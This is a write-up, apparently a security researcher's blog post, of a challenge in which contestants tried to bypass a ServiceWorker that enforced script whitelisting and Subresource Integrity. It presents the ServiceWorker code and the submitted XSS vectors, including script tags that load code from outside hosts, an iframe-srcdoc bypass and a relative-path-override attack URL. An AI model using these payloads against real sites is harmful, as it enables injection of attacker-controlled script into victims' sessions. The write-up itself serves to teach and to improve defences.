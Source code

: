 Title: Challenge Write-up: Subresource Integrity in Service Workers
Date: 2017-03-25
Author: Frederik
Slug: sw-sri-challenge

For those who have not participated in my [challenge](https://serviceworker.on.web.security.plumbing/), this document is about implementing security features in ServiceWorkers. A
ServiceWorker (SW) is a type of [Web Worker](https://duckduckgo.com/?q=web+worker&t=ffab&ia=web) that can intercept and modify HTTP requests. A ServiceWorker is allowed to see requests towards your own as well as other origins – though it [must not](https://frederik-braun.com/publications/thesis/Thesis-Origin_Policy_Enforcement_in_Modern_Browsers.pdf) be able to see the response from cross-origin resources.

The idea of the [challenge](https://serviceworker.on.web.security.plumbing/) was to write a tiny ServiceWorker that would intercept all HTTP requests and cancel everything except those blessed by a white-list. On top of that, external resources (e.g., scripts) must only be loaded with [Subresource Integrity](https://www.w3.org/TR/SRI/) (SRI). This can be easily achieved, because `fetch()` supports SRI out of the box:
If you supply the `integrity` keyword in the options parameter to `fetch`, it will automatically fail unless the hashes match:

Here's the relevant code snippet with some extra comments
```js
self.addEventListener("fetch", function(event) {
  let request = event.request;
  if (request.method === "GET") {
    // check if URL in pre-defined whitelist at the top of the document:
    if (request.url in INTEGRITY_METADATA) { 
      // if HTML does not contain integrity=, use from the whitelist
      let sriHash = request.integrity || INTEGRITY_METADATA[request.url];
      let fetchOptions = {
        integrity: sriHash,
        method: request.method,
        mode: "cors", // if we have integrity metadata, it should also use cors
        credentials: "omit", // ...and omit credentials
        cache: "default",
      };
      // ServiceWorker lets the document proceed fetching the resource, but with modified fetch options
      event.respondWith(fetch(request, fetchOptions));
```

The goal of the challenge was to make the document execute your script - essentially bypassing the ServiceWorker. To facilitate such an attack, I implemented a simple reflected Cross-Site-Scripting (XSS) vulnerability and hinted to its existence in the rules. XSS in general allows executing all kinds of scripts. Inline as well as from a specified URL. Because we wanted the script to go through the ServiceWorker, we have also hardened the challenge with a Content Security Policy (CSP). Content Security Policy is a mechanism to restrict how scripts can be run from a website. The policy that I used disallowed all kinds of inline scripts in tags or event handlers (e.g., `<script>...</script>` or `onerror=`).
This essentially required an attacker to request a script that is living on their own domain, thus forcing them through the ServiceWorker.

Unless, of course, the attacker was able to find a browser bug involving an arcane constellation of markup that does *not* trigger the Fetch Event declared in the ServiceWorker.

### PEBKAC

As it turns out, most browsers bypass the ServiceWorker when reloading a page with CTRL+SHIFT+R. Not only did this cause some invalid submissions, it also took me until the day I am trying to summarize my finding to notice that I have incorrectly approved some attacks when they do not actually work. This affects the following submissions:
[Mario Heiderich](https://twitter.com/0x6D6172696F)'s vector is `<svg><script/href=//14.rs></script>` (which is even shorter on Firefox, because you can leave the closing `</script>` tag out).

*But it does not work* unless you hard-refresh. But with a hard-refresh, even `<script/href=//14.rs></script>` works, because, well, hard-refreshes bypass the ServiceWorker.

The same goes for [Artur Janc](https://twitter.com/arturjanc/)'s submission. His approach looks like this `<base href="//14.rs"><script src=/></script>`, using Mario's short domain name. It also falls flat when the ServiceWorker is correctly installed.

I'm sincerely sorry, but I have to gently wipe you off the leader board. I admit I should have done a better job at testing.
I'm very sure you would have found a valid solution, if I had judged the challenge more properly.

### Bypassing the Service Worker

Now, let's head on to the first submission.
First blood was drawn by [Manuel Caballero](https://twitter.com/magicmac2000/), who figured out that a script loaded in an `<iframe srcdoc=..>` is not going through the ServiceWorker. This is somewhat weird, given that a script running `navigator.serviceWorker.getRegistrations()` in this iframe returns the active ServiceWorker at sri-worker.js.

[Masato Kinugawa](https://twitter.com/kinugawamasato) promptly followed suite with the same attack vector. He also noted that a simple `<script src=evil.com></script>`-style vector also works in Private Browsing mode. This stems from the fact that the XSS vulnerability usually wins a race with the ServiceWorker registration. Note that the ServiceWorker must be registered from a separate JS file, since inline scripts are disallowed by CSP. This registration happens asynchronously and has to be faster then another script tag that is controlled by the attacker. It's certainly noteworthy, but I did not count this as a valid submission: In a real life scenario, an attacker is only really successful if the victim has a session associated with the web page and has also visited the web page before. In this case, the ServiceWorker is already registered and the bootstrapping is a no-op.
I admit that this is a clear gap in my rules, so kudos to [Masato Kinugawa](https://twitter.com/kinugawamasato) (and some other folks who found this issue later on)!

[Alex Inführ](https://twitter.com/insertScript/) sent a solution that also used iframe srcdoc, but added the sandbox attribute, which cost him a few more characters.

In a similar vain, [Eduardo Vela](https://twitter.com/sirdarckcat/) sent me to [https://0v.lv/?e](https://0v.lv/?e), which contains an iframe sandbox, that links to a conventional XSS on the domain. The trick here, is that navigations from an iframe sandbox pointing to a website with a Service Worker will skip trigger the ServiceWorker. This is a nice find, but wasn't considered a valid solution as it required user interaction.

### Implementation flaws and assumptions

Having looked at those submissions that the ServiceWorker does not see, let's take another look at the rest of its source code. Some submissions also found implementation bugs. Here's the code right after the white-list check. Again, I'll add some extra comments.

```js
let LOCALFILES = {};
LOCALFILES["/style.css"] = "sha384-q2bP418TFL/LOAo5XrjD7OciiOi63q6OKnDH67oOGNkWc/rvUaWpynoatxySxEPF";
LOCALFILES["/sri-sha.js"] = "sha384-TKCoLrAkiPTzJzLNLqSmFqC0XA9PCMUwSYg2E/FosZEy7h26mwR9wONvTZ9Zvtj9";
LOCALFILES["/initialize-sw.js"] = "sha384-32IhktVnY10EwfUKtlhYBUoBysS2QM8cmW1bW2HENM3nIEmGDNwpkqdmpaE2jF7Z";
LOCALFILES["/sri-worker.js"] = "sha384-rRSq8lAgvvL9Tj617AxQJyzf1mB0sO0DfJoRJUMhqsBymYU3S+6qW4ClBNBIvhhk"
let parsed = new URL(request.url);
// other free pass: same-origin
if (parsed.origin === ownLocation.origin) {
  // we allow ourselves (the forward-slash) and paths required for the website to work. some stylesheets etc.
  if ((parsed.pathname === '/') || (parsed.pathname in LOCALFILES)) {
    // note that these requests do not require integrity. the integrity metadata in the object was left out here. 
    // this is mostly a decoy "bug", which I was hoping would confuse people.
    console.log("Fetching same-origin thingy", request.url)
    event.respondWith(fetch(request));
  } else {
    console.log(`[${LOGNAME}] Can not fetch ${request.url}. No integrity metadata.`);
    event.respondWith(Response.error());
  }
} else {
  // cross-origin: blocked.
  console.log(`[${LOGNAME}] Can not fetch ${request.url}. No integrity metadata.`);
 event.respondWith(Response.error());
}
```

To briefly summarize, we first perform a same-origin check and then allow files in the same origin that are contained in the `LOCALFILES` object or the file `/`. Even though the object contains hashes, these are never added to the request and thus never checked. I did not think of this case as a vulnerability and mostly left this inconsistency as a decoy.
For every other type of request the code responds with a network error, i.e.,`Response.error()`.

### Thinking outside the box

This fine submission reached me when I was leaving the subway on my way home and I *really* did not understand what was going on:

[https://serviceworker.on.web.security.plumbing/index.php/?name=&lt;script/src=//0v.lv>&lt;/script>](https://serviceworker.on.web.security.plumbing/index.php/?name=%3Cscript%2Fsrc%3D%2F%2F0v.lv%3E%3C%2Fscript%3E)

The really important thing to note here is that the request URL contains `/index.php/?name=`.
This trick is called [Relative Path Override (or RPO)](http://www.thespanner.co.uk/2014/03/21/rpo/). A technique first described and coined by [Gareth Heyes](https://twitter.com/garethheyes). RPO attacks the fact that the script is loading resources from a relative path `initialize-sw.js`. The attacker providing a different request path, can thus mess up the additional resource loading. The website will attempt to load the necessary files from `/index.php/initialize-sw.js` instead and therefore fails.

This is of course extra nasty, when those scripts behind relative paths are implementing security features.
A truly nice find, by [Eduardo Vela](https://twitter.com/sirdarckcat/)!


### Conclusions & Acknowledgments

It's interesting to use fresh technologies like ServiceWorkers, Subresource Integrity and Content Security Policy (heh) in combination and see what happens. Building your own security solutions on top of the web platform is a very complex undertaking and makes you realize that those features were created ad-hoc in a very unsystematic way. As a result of that, I'd advise you not to implement hard guarantees about regulating `fetch()` calls using Service Workers.

But it's always great fun to think of something interesting and then have yourself proven wrong in the real world. Thanks to [Anne van Kersteren](https://twitter.com/annevk/) for making me look into an implementation of Subresource Integrity (and `require-sri-for`) with Service Workers. And of course, thanks to all the participants that tried (and succeeded) to break the implementation in various ways.

If you want mandatory Subresource Integrity, I recommend you look into the SRI2 working draft. The `require-sri-for` CSP extension has been implemented in Firefox and Chrome, but in both cases it's behind a flag (`security.csp.experimentalEnabled` and *experimental Web Platform features* respectively)

